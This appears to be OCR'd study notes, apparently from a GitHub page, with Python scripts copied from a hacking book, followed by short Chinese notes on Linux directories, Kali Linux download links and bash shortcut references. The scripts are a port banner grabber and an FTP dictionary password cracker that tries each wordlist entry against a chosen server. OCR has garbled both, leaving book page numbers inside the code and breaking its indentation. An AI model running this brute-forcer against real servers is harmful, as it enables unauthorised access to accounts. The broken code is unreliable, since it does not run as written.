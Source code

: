 
__Improving Our Hacking Scripts__
```python
#! /usr/bin/python3
import socket
Ports = [21,22,25,3306]
for i in range (0,4):
= socket.socket()
Ports = Port[i]200 Chapter 17
print ('This Is the Banner for the Port')
print (Ports)
s.connect (("192.168.1.101", Port))
answer = s.recv (1024)
print (answer)
s.close ()
```

__Exceptions and Password Crackers__

```python
#! /usr/bin/python3
import ftplib
server = input("FTP Server: ")
user = input("username: ")
Passwordlist = input ("Path to Password List > ")
try:
    with open(Passwordlist, 'r') as pw:
    for word in pw:
        word = word.strip ('\r').strip('\n')
        try:
            ftp = ftplib.FTP(server)
            ftp.login(user, word)202 Chapter 17
            print ('Success! The password is ' + word)
        except:
            print('still trying...')
except:
    print ('Wordlist error')
```

# Linux目录说明 & 下载链接 

/etc/apt/sources.list.d  源列表
/usr/local               安装软件
~/.local/bin             软件


https://www.kali.org/releases/
https://images.kali.org/virtual-images/kali-linux-2021.2-vmware-amd64.7z

# bash/terminal 终端快捷键操作 keyboard/hotkey
https://www.gnu.org/software/emacs/refcards/pdf/refcard.pdf
https://www.howtogeek.com/howto/ubuntu/keyboard-shortcuts-for-bash-command-shell-for-ubuntu-debian-suse-redhat-linux-etc/
